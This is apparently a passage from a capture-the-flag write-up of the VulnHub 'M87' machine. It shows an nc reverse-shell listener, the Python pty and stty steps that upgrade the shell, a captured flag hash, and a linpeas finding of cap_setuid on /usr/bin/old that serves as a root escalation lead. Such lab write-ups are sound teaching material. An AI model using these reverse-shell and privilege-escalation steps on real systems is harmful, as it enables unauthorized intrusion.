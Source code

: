 Now we can access `terminal`.

![terminal](/assets/img/m87/terminal.png)

# Reverse Shell
Now we can get reverse shell using the terminal window.

![rce](/assets/img/m87/rce.png)
```
┌─[hitesh@parrot]─[~/boxes/vulnhub/m87]
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.1.222] from (UNKNOWN) [192.168.1.223] 32832
python -c 'import pty;pty.spawn("/bin/bash")'
charlotte@M87:~$ ^Z
[1]+  Stopped                 nc -nvlp 4444
┌─[✗]─[hitesh@parrot]─[~/boxes/vulnhub/m87]
└──╼ $stty raw -echo
┌─[hitesh@parrot]─[~/boxes/vulnhub/m87]
└──╼ $nc -nvlp 4444

charlotte@M87:~$ export TERM=xterm
charlotte@M87:~$ 
```

# Flag 1
```
charlotte@M87:~$ cat local.txt 
29247ebdec52ba0b9a6fd10d68f6b91f
``` 
# Privesc to Root
I upload linpeas.sh on box and run it. 
```
[+] Capabilities
/usr/bin/old = cap_setuid+ep
```